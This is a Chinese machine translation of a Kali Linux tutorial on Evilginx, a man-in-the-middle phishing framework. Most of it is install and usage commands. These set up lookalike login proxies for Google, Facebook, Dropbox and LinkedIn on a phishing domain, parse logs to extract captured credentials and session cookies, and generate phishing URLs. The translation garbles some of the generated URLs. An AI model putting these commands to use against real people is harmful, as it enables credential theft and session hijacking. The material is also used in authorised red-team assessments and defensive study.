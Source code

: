 # evil ginx–针对网络钓鱼凭据和会话 Cookies 的 MITM 攻击框架

> 原文：<https://kalilinuxtutorials.com/evilginx-mitm-attack/>

Evilginx 是一个中间人攻击框架，用于任何 web 服务的钓鱼凭证和会话 cookies。它的核心运行在 Nginx HTTP server 上，利用`proxy_pass`和`sub_filter`代理和修改 HTTP 内容，同时拦截客户端和服务器之间的流量。

## **安装 evil ginx**

Evilginx 提供了一个安装脚本`install.sh`,它负责以一劳永逸的方式在任何 Debian wheezy/jessie 机器上安装整个软件包。

**亦读 [幽灵钓鱼者——无线&以太网攻击软件应用](https://kalilinuxtutorials.com/ghost-phisher-wireless-attack/)**

```
**`git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh`** 
```

## **用法**

```
 `_ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ | 
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit` 
```

## **设置**

使用`sites`目录中提供的 Evilginx 模板，启用或禁用用于 Nginx 服务器的站点配置。

```
**usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.** 
```

**列出可用的站点配置模板:**

```
**python evilginx.py setup -l**
```

**列出可用的支持站点:**
`**- dropbox (/root/evilginx/sites/dropbox/config)
subdomains: www** 
**- google (/root/evilginx/sites/google/config)
subdomains: accounts, ssl** 
**- facebook (/root/evilginx/sites/facebook/config)
subdomains: www, m** 
**- linkedin (/root/evilginx/sites/linkedin/config)
subdomains: www**`

**启用预先注册了钓鱼域名的谷歌钓鱼网站** `**not-really-google.com**` **:**

```
**python evilginx.py** **setup --enable google -d not-really-google.com** 
```

**禁用 facebook 钓鱼网站:**

```
**`python evilginx.py setup --disable facebook`** 
```

### **解析**

解析 Nginx 日志，提取截获的登录凭证和会话 cookies。默认情况下，日志保存在`evilginx.py`脚本所在的`logs`目录中。这可以在**设置**阶段启用自动解析后自动完成。

```
`usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.` 
```

**只解析 google 站点的日志:**

```
**python evilginx.py parse -s google** 
```

**解析所有可用站点的日志:**

```
**`python evilginx.py parse -s all`** 
```

### **生成网址**

**生成可用于红队评估的网络钓鱼网址。**

```
**usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.** 
```

**Generate google phishing URL that will redirect victim to rick’roll video on successful login:**

```
**`python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ`**
```

**生成了以下网络钓鱼网址:**

*   **[https://accounts.not-really-google.com/ServiceLogin?RC = 0 ah r0 CHM 6 ly 93d 3c uew 91 dhviz 5 JB 20 VD 2 f 0y 2g _ DJ 1 kuxc 0 dzlxz 1 hjuq](https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ)**
*   [**https://accounts . not-really-Google . com/sign in/v2/identifier？RC = 0 ah r0 CHM 6 ly 93d 3c uew 91 dhviz 5 JB 20 VD 2 f 0y 2g _ DJ 1 kuxc 0 dzlxz 1 hjuq**](https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ)